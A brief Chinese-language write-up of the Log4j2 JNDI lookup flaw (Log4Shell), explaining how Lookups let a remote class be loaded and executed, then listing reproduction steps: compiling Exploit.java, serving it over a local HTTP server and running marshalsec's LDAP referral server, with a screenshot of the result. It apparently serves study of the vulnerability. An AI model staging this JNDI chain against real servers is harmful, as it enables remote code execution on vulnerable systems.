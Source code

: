 ### 0x01 漏洞原理
用我的理解简单概括一下  
log4j2在输出到日志的时候除了支持常见的变量替换还支持获取远程内容，获取远程内容由Lookups功能提供
```
# 变量替换
logger.info("user name: {}, alias name: {}", userName, aliasName)
```
获取远程内容支持多种维度，其中就包括jndi，如下图  
![image](./pic/Lookups.png)  
jndi简单讲就是一个类似于字典的数据集，传入名称，获取对应的对象，不过jndi还有一个危险的特性，就是可获取远程class或远程class的地址，加载到本地后通过classloader执行，这个时候如果用户传入一个包含恶意class的地址，则会导致服务器执行恶意代码，具体利用的话需要结合jndi支持的协议，jndi支持ladp、rmi、corba、dns四种协议，利用思路如下图  
![image](./pic/mindmap.png)  


### 0x02 漏洞复现
1、javac.exe .\Exploit.java  
2、python3.exe -m http.server 8800  
3、java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8800/#Exploit  

4、结果如下图  
![image](./pic/calc.png)  

### 参考链接
https://zhuanlan.zhihu.com/p/445646703h  
https://drun1baby.github.io/2022/07/28/Java反序列化之JNDI学习/  